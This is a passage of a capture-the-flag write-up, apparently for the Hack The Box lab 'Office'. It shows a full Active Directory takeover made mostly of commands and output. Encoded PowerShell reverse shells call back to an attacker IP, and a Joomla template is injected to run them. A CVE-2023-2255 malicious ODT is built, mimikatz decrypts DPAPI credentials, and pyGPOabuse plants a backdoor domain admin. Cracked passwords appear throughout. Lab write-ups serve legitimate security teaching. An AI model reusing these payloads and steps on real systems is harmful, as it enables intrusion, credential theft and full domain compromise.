$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69
```
I have cracked the hash!

```python
tstark:playboy69
```
Ill verify these credentials

```python
nxc smb dc.office.htb -u tstark -p 'playboy69'                           
SMB         10.129.230.226  445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:None)
SMB         10.129.230.226  445    DC               [+] office.htb\tstark:playboy69
```
This user is compromised

## Bloodhound on `tstark` 



This user is part of the registry editors group!

Im sure this ill come into play but first ill try to log in as the administrator now i have the password for the user `tstark`

## Access as the administrator on the web portal



I am now logged in here!


## Remote code execution as the `web_account`



Ive opened the system settings then selected site templates, and ill add a malicious line the homepage!





After saving the updates with the shell inside and in another tab proxying a request i can get remote code execution as the `web_account`

```python
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOQAwACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```
Ill grab this payload from revshells.com with my ip and port on

```python
penelope -p 443                                         
[+] Listening for reverse shells on 0.0.0.0:443 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
Ill start a listener



Now ill place the payload in the cmd parameter and URL encode the full payload then send it!

```python
penelope -p 443                                         
[+] Listening for reverse shells on 0.0.0.0:443 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC 10.129.32.165 Microsoft_Windows_Server_2022_Standard-x64-based_PC 👤 office\web_account 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC~10.129.32.165-Microsoft_Windows_Server_2022_Standard-x64-based_PC/2026_05_12-19_53_30-096.log
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\xampp\htdocs\joomla>
```
I now have a reverse shell as this user!

Now i can also get remote code execution as `tstark` since i know his credentials


## Reverse shell as `tstark`

Ill upload RunAsCs

```python
python3 -m http.server 8000                            
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
After downloading it to my system i can host it on a python web server

```python
PS C:\Users\web_account\Documents> wget http://10.10.14.90:8000/RunasCs.exe -o runas.exe
PS C:\Users\web_account\Documents> dir


    Directory: C:\Users\web_account\Documents


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         5/12/2026   8:01 PM          51712 runas.exe                                                            


PS C:\Users\web_account\Documents> 
```
I have now transferred it to the target!

```python
penelope -p 1337                                        
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
Now ill start another listener on my machine

```python
PS C:\Users\web_account\Documents> .\runas.exe tstark playboy69 powershell.exe -r 10.10.14.90:1337
[*] Warning: The logon for user 'tstark' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-92463$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 6300 created in background.
PS C:\Users\web_account\Documents> 
```
This has sent a powershell session back to my listener!

```python
penelope -p 1337                                        
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC 10.129.32.165 Microsoft_Windows_Server_2022_Standard-x64-based_PC 👤 office\tstark 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC~10.129.32.165-Microsoft_Windows_Server_2022_Standard-x64-based_PC/2026_05_12-20_03_12-782.log
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Windows\system32> whoami
whoami
office\tstark
PS C:\Windows\system32
```
I now have a session as this user!

Now  i can return back to what i saw in bloodhound earlier, this user can modify registry keys!

## Internal web application
```python
PS C:\xampp\htdocs\internal\applications> netstat -ano | findstr "LISTENING"
netstat -ano | findstr "LISTENING"
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       3308
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       676
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       916
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       676
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       3308
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       676
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       916
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       676
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       676
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       676
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       772
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       372
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8083           0.0.0.0:0              LISTENING       3308
```
I have found an internal web server running!

Looks like the web root is at `C:\xampp\htdocs\internal\`

```python
PS C:\xampp\htdocs\internal\applications> icacls .
icacls .
. CREATOR OWNER:(OI)(CI)(IO)(F)
  OFFICE\PPotts:(OI)(CI)(NP)(F)
  NT AUTHORITY\SYSTEM:(OI)(CI)(F)
  NT AUTHORITY\LOCAL SERVICE:(OI)(CI)(F)
  OFFICE\web_account:(OI)(CI)(RX,W)
  BUILTIN\Administrators:(OI)(CI)(F)
  BUILTIN\Users:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
PS C:\xampp\htdocs\internal\applications> 
```
Looks like its owned by PPotts

I could use a tool like ligolo-ng to access the internal service!

## Accessing internal service via Ligolo-ng

First ill download the appropriate windows agent and also the linux proxy

```python
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Ill host the agent using a python web server!

```python
PS C:\Users\tstark\Documents> wget http://10.10.14.90:8000/agent.exe -o agent.exe
wget http://10.10.14.90:8000/agent.exe -o agent.exe
PS C:\Users\tstark\Documents> dir
dir


    Directory: C:\Users\tstark\Documents


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         5/12/2026   8:28 PM        7302656 agent.exe                                                            


PS C:\Users\tstark\Documents> 
```
Now the agent is on the target!

```python
sudo ./proxy -selfcert                                      
[sudo] password for kali: 
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? No
WARN[0002] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0002] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0002] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.8.3

ligolo-ng » ifcreate --name office
INFO[0019] Creating a new office interface...           
INFO[0019] Interface created!                           
ligolo-ng » route_add --name office --route 240.0.0.1/32
INFO[0039] Route created. 
```
Next ill configure the proxy on my system!

```python
PS C:\Users\tstark\Documents> ./agent.exe -connect 10.10.14.90:11601 --ignore-cert
./agent.exe -connect 10.10.14.90:11601 --ignore-cert
time="2026-05-12T20:31:27-07:00" level=warning msg="warning, certificate validation disabled"
time="2026-05-12T20:31:27-07:00" level=info msg="Connection established" addr="10.10.14.90:11601"
```
Next ill execute the agent on the powershell session

```python
ligolo-ng » INFO[0095] Agent joined.                                 id=a2deadce621d name="OFFICE\\tstark@DC" remote="10.129.32.165:55794"
ligolo-ng » sessions
error: unknown command, try 'help'
ligolo-ng » session
? Specify a session : 1 - OFFICE\tstark@DC - 10.129.32.165:55794 - a2deadce621d
[Agent : OFFICE\tstark@DC] » tunnel_start --tun office
INFO[0132] Starting tunnel to OFFICE\tstark@DC (a2deadce621d) 
[Agent : OFFICE\tstark@DC] » 
```
Now i can start the tunnel!

Now i should be able to access the internal service on 240.0.0.1:8083


I now have access to the internal service on my machine!



There is also a resume.php file here, which i can check the source code for this!

```python
$filesallowed = array('docm','docx','doc','odt');
```
The source code tells me there are only certain files allowed to be uploaded here!

https://nvd.nist.gov/vuln/detail/CVE-2023-2255

It looks as if libreoffice is installed, and it looks to be a vulnerable version

## Shell as `PPotts`

https://github.com/elweth-sec/CVE-2023-2255

```python
python3 CVE-2023-2255.py --cmd 'cmd /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOQAwACIALAAxADMAMwA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==' --output rce.odt
```
Ill make a malicious odt file using a rev shell from revshells.com with my IP and port

```python
penelope -p 1338           
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
Now ive set a listener

Now i can use my session as `web_account` and wget the malicious odt

```python
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Now ill host the odt on my machine

```python
PS C:\xampp\htdocs\internal\applications> wget http://10.10.14.90:8000/rce.odt -o rce.odt
PS C:\xampp\htdocs\internal\applications> dir -force


    Directory: C:\xampp\htdocs\internal\applications


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         5/12/2026   8:50 PM          31843 rce.odt                                                              


PS C:\xampp\htdocs\internal\applications> 
```
Now the file is there

```python
penelope -p 1338           
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC 10.129.32.165 Microsoft_Windows_Server_2022_Standard-x64-based_PC 👤 office\ppotts 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC~10.129.32.165-Microsoft_Windows_Server_2022_Standard-x64-based_PC/2026_05_12-20_50_52-602.log
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Program Files\LibreOffice 5\program> whoami
office\ppotts
PS C:\Program Files\LibreOffice 5\program>
```
Now i have a shell as this user!

## Decrypting DPAPI credentials leads to user compromise

As opposed to exfiltrating these files ill use mimikatz to do this

```python
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Ill host it on my system

```python
PS C:\Users\PPotts\Documents> wget http://10.10.14.90:8000/mimikatz.exe -o mimikatz.exe
PS C:\Users\PPotts\Documents> dir


    Directory: C:\Users\PPotts\Documents


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          5/9/2023   2:16 PM                WindowsPowerShell                                                    
-a----         5/12/2026   9:10 PM        1355264 mimikatz.exe                                                         


PS C:\Users\PPotts\Documents> 
```
Now its on the target 

```python
PS C:\Users\PPotts\Documents> .\mimikatz.exe "dpapi::masterkey /in:C:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # dpapi::masterkey /in:C:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {191d3f9d-7959-4b4d-a520-a444853c47eb}
  dwFlags            : 00000000 - 0
  dwMasterKeyLen     : 00000088 - 136
  dwBackupKeyLen     : 00000068 - 104
  dwCredHistLen      : 00000000 - 0
  dwDomainKeyLen     : 00000174 - 372
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : c521daa0857ee4fa6e4246266081e94c
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : 1107e1ab3e107528a73a2dafc0a2db28de1ea0a07e92cff03a935635013435d75e41797f612903d6eea41a8fc4f7ebe8d2fbecb0c74cdebb1e7df3c692682a066faa3edf107792d116584625cc97f0094384a5be811e9d5ce84e5f032704330609171c973008d84f

[backupkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : a2741b13d7261697be4241ebbe05098a
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : 21bf24763fbb1400010c08fccc5423fe7da8190c61d3006f2d5efd5ea586f463116805692bae637b2ab548828b3afb9313edc715edd11dc21143f4ce91f4f67afe987005320d3209

[domainkey]
  **DOMAINKEY**
    dwVersion        : 00000002 - 2
    dwSecretLen      : 00000100 - 256
    dwAccesscheckLen : 00000058 - 88
    guidMasterKey    : {e523832a-e126-4d6e-ac04-ed10da72b32f}
    pbSecret         : 159613bdc2d90dd4834a37e29873ce04c74722a706d0ba4770865039b3520ff46cf9c9281542665df2e72db48f67e16e2014e07b88f8b2f7d376a8b9d47041768d650c20661aee31dc340aead98b7600662d2dc320b4f89cf7384c2a47809c024adf0694048c38d6e1e3e10e8bd7baa7a6f1214cd3a029f8372225b2df9754c19e2ae4bc5ff4b85755b4c2dfc89add9f73c54ac45a221e5a72d3efe491aa6da8fb0104a983be20af3280ae68783e8648df413d082fa7d25506e9e6de1aadbf9cf93ec8dfc5fab4bfe1dd1492dbb679b1fa25c3f15fb8500c6021f518c74e42cd4b5d5d6e1057f912db5479ebda56892f346b4e9bf6404906c7cd65a54eea2842
    pbAccesscheck    : 1430b9a3c4ab2e9d5f61dd6c62aab8e1742338623f08461fe991cccd5b3e4621d4c8e322650460181967c409c20efcf02e8936c007f7a506566d66ba57448aa8c3524f0b9cf881afcbb80c9d8c341026f3d45382f63f8665


Auto SID from path seems to be: S-1-5-21-1199398058-4196589450-691661856-1107

[backupkey] without DPAPI_SYSTEM: 
  key : 4d1b2c18baba7442e79d33cc771bf54027ae2500e08da3ecfccf91303bd471b6
  sha1: eeb787c4259e3c8b8408201ee5e54fc29fad22b2

[domainkey] with RPC
[DC] 'office.htb' will be the domain
[DC] 'DC.office.htb' will be the DC server
  key : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
  sha1: 85285eb368befb1670633b05ce58ca4d75c73c77
```
I now have the key

```python
PS C:\Users\PPotts\Documents> .\mimikatz.exe "dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {191d3f9d-7959-4b4d-a520-a444853c47eb}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 0000003a - 58
  szDescription      : Enterprise Credential Data


  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : 649c4466d5d647dd2c595f4e43fb7e1d
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : 32e88dfd1927fdef0ede5abf2c024e3a
  dwDataLen          : 000000c0 - 192
  pbData             : f73b168ecbad599e5ca202cf9ff719ace31cc92423a28aff5838d7063de5cccd4ca86bfb2950391284b26a34b0eff2dbc9799bdd726df9fad9cb284bacd7f1ccbba0fe140ac16264896a810e80cac3b68f82c80347c4deaf682c2f4d3be1de025f0a68988fa9d633de943f7b809f35a141149ac748bb415990fb6ea95ef49bd561eb39358d1092aef3bbcc7d5f5f20bab8d3e395350c711d39dbe7c29d49a5328975aa6fd5267b39cf22ed1f9b933e2b8145d66a5a370dcf76de2acdf549fc97
  dwSignLen          : 00000014 - 20
  pbSign             : 21bfb22ca38e0a802e38065458cecef00b450976

Decrypting Credential:
 * masterkey     : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000be - 190
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 5/9/2023 11:03:21 PM
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:interactive=OFFICE\HHogan
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : OFFICE\HHogan
  CredentialBlob : H4ppyFtW183#
  Attributes     : 0

mimikatz(commandline) # exit
Bye!
```
The other two gave an error but this one works

```python
hhogan:H4ppyFtW183#
```
Ill verify these credentials

```python
nxc smb dc.office.htb -u hhogan -p 'H4ppyFtW183#'         
SMB         10.129.32.165   445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:None)
SMB         10.129.32.165   445    DC               [+] office.htb\hhogan:H4ppyFtW183#
```
This user is compromised!

## Domain admin



The current user has GenericWrite over the default domain policy

I can use pyGPOabuse to get to domain admin!

```python
python3 pygpoabuse.py 'office.htb'/'hhogan':'H4ppyFtW183#'  -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -f
[+] ScheduledTask TASK_bdfa12c1 created!
```
This created a task

And since the user is part of the remote management users group i can login via winrm and update the policies manaully

```python
evil-winrm -i dc.office.htb -u hhogan -p 'H4ppyFtW183#'                               
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\HHogan\Documents> gpupdate
Updating policy...


Computer Policy update has completed successfully.

User Policy update has completed successfully.


*Evil-WinRM* PS C:\Users\HHogan\Documents>
```
Now i should have a backdoor admin account created for me with the creds `john:H4x00r123..`

I could also specify a command when i ran pygpoabuse but leaving one out will create a backdoor account with these creds, so ill just do that!

```python
nxc smb dc.office.htb -u john -p 'H4x00r123..'            
SMB         10.129.32.165   445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:None)
SMB         10.129.32.165   445    DC               [+] office.htb\john:H4x00r123.. (Pwn3d!)
```
This user has a pwned indicator which tells me this worked!

```python
nxc smb dc.office.htb -u john -p 'H4x00r123..' -X 'whoami'
SMB         10.129.32.165   445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:None)
SMB         10.129.32.165   445    DC               [+] office.htb\john:H4x00r123.. (Pwn3d!)
SMB         10.129.32.165   445    DC               [+] Executed command via atexec
SMB         10.129.32.165   445    DC               nt authority\system
```

```python
evil-winrm -i dc.office.htb -u john -p 'H4x00r123..'   
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\john\Documents>
```
Domain admin!
